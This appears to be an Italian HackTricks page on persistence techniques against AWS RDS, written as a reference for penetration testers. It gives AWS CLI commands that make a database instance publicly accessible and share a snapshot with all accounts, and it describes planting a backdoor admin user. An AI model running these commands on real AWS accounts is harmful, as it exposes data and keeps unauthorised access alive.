 # AWS - RDS Persistence

{{#include ../../../banners/hacktricks-training.md}}

## RDS

Per ulteriori informazioni controlla:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### Rendi l'istanza accessibile pubblicamente: `rds:ModifyDBInstance`

Un attaccante con questo permesso può **modificare un'istanza RDS esistente per abilitare l'accesso pubblico**.
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### Crea un utente admin all'interno del DB

Un attaccante potrebbe semplicemente **creare un utente all'interno del DB** così anche se la password dell'utente master viene modificata, **non perde l'accesso** al database.

### Rendi pubblico lo snapshot
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../banners/hacktricks-training.md}}

